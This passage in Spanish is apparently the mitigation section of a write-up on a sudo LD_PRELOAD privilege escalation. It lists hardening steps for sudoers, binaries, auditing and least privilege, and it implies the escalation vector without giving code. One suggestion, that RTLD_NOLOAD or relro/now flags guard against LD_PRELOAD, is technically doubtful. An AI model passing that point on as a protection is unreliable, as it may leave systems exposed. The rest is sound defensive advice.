- Eliminar LD_PRELOAD (y variables similares como LD_LIBRARY_PATH, PERL5LIB, PYTHONPATH) de la lista env_keep en /etc/sudoers. Por defecto, sudo ya las limpia (env_reset); mantener env_keep+=LD_PRELOAD revierte esa protección explícitamente.
- Evitar reglas NOPASSWD para binarios genéricos salvo que sea estrictamente necesario, y en ese caso, usar la ruta absoluta junto con restricciones de argumentos (sudoers permite limitar qué parámetros se pueden pasar).
- Compilar binarios sensibles con flags de hardening (-z now, -z relro, -fPIE -pie) y, si es posible, evitar que dependan de libc dinámica de forma que LD_PRELOAD pueda interceptar símbolos (estático o con RTLD_NOLOAD donde aplique).
- Auditar periódicamente sudo -l para todos los usuarios del sistema, y usar herramientas como lynis o linpeas en modo defensivo para detectar configuraciones de sudoers riesgosas antes de que un atacante lo haga.
- Aplicar el principio de mínimo privilegio: si firewall-tester solo necesita leer estado de red, no debería requerir privilegios de root en absoluto — idealmente debería correr con capabilities específicas (CAP_NET_ADMIN, por ejemplo) en vez de root completo.
